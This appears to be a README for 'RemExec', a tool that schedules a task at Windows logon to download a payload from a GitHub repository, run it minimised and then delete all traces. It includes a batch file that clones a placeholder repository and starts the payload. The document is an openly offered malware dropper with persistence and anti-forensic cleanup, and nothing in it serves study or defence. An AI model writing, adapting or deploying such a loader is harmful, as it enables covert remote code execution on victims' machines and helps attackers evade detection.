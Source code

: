   RemExec is a program that is used to download payload from a repository and execute it on a pc at starup!

-At logon a task is scheduled to run and download the payload
  
-It runs itself
  
-After exiting auto-deletes the folder of payload and script leaving no trace!

Costumize the github repo that is used to download the payload from the "fetch.bat" (ONLY FILE THAT CAN BE SAFE TO EDIT)




        @echo off
        call git clone https://github.com/USER/REPOSITORY.git
        start /min execute.bat
        exit
